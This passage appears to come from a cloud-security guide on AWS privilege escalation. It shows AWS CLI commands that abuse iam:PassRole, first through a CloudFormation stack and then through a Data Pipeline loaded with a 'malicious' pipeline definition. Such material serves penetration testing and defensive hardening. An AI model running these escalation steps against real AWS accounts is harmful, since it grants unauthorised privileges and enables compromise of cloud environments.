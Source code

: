 ```bash
aws cloudformation create-stack --stack-name $STACK_NAME --template-url $TEMPLATE_URL --role-arn $ROLE_ARN_TO_PASS
```

Note that the `$TEMPLATE_URL` can be hosted *anywhere*.

## Pass a Role to Data Pipeline

Data Pipeline is another automation service, and with the iam:passRole, datapipeline:CreatePipeline, and datapipeline:PutPipelineDefinition permissions it can be exploited in a similar fashion to CloudFormation. The main difference here is that the attacker will probably use the pipeline to execute AWS CLI commands, rather than orchestrating larger gobs of AWS resources (as with CloudFormation). Example:

```bash
# Create an empty data pipeline
#
aws datapipeline create-pipeline --name $PIPELINE_NAME --unique-id $UUID

# Add a malicious action to the pipeline
#
aws datapipeline put-pipeline-definition --pipeline-id $UUID --pipeline-definition $PATH_TO_MALICIOUS_PIPELINE_DEFINITION_JSON
```










